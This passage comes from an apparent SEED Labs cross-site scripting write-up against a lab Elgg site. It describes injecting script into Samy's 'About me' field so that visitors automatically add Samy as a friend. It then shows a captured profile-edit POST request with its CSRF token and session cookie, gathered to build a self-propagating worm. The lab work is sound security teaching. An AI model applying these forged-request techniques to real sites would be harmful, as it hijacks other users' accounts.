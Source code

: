 </svg>
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-check js-clipboard-check-icon color-text-success d-none m-2">
    <path fill-rule="evenodd" d="M13.78 4.22a.75.75 0 010 1.06l-7.25 7.25a.75.75 0 01-1.06 0L2.22 9.28a.75.75 0 011.06-1.06L6 10.94l6.72-6.72a.75.75 0 011.06 0z"></path>
</svg>
    </clipboard-copy>
  </div></div>
<p dir="auto">Log in with username <code>samy</code> and password <code>seedsamy</code>.</p>
<p dir="auto">Add the code above in <code>Profile</code> -&gt; <code>About me</code> by <code>edit html</code> mode.</p>
<p dir="auto">Now on the VM <code>10.0.2.4</code>, sign in as Boby and visit Samy's profile(<a href="http://www.xsslabelgg.com/profile/samy" rel="nofollow">http://www.xsslabelgg.com/profile/samy</a>), without any extra action, just refresh the page, it shows that Samy is already your (i.e. Boby) friend.</p>
<h1 dir="auto"><a id="user-content-task-5" class="anchor" aria-hidden="true" href="#task-5"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z"></path></svg></a>Task 5</h1>
<p dir="auto">When editing a user's (Alice) own profile legally, the <code>network</code> tool captures such an HTTP POST request:</p>
<div class="snippet-clipboard-content position-relative overflow-auto"><pre><code>Request URL: http://www.xsslabelgg.com/action/profile/edit
__elgg_token=VSvHyrizEfLuFJUoNPOQXg
__elgg_ts=1589672946
name=Alice
description=&lt;p&gt;dsadsa&lt;/p&gt;
accesslevel[description]=2
briefdescription=dasasda
accesslevel[briefdescription]=2
location
accesslevel[location]=2
interests
accesslevel[interests]=2
skills
accesslevel[skills]=2
contactemail
accesslevel[contactemail]=2
phone
accesslevel[phone]=2
mobile
accesslevel[mobile]=2
website
accesslevel[website]=2
twitter
accesslevel[twitter]=2
guid=44
POST /action/profile/edit HTTP/1.1
Host: www.xsslabelgg.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://www.xsslabelgg.com/profile/alice/edit
Content-Type: application/x-www-form-urlencoded
Content-Length: 505
Cookie: Elgg=ruji2rg6eu80rqj6oebqt57ga7
Connection: keep-alive
Upgrade-Insecure-Requests: 1
</code></pre><div class="zeroclipboard-container position-absolute right-0 top-0">
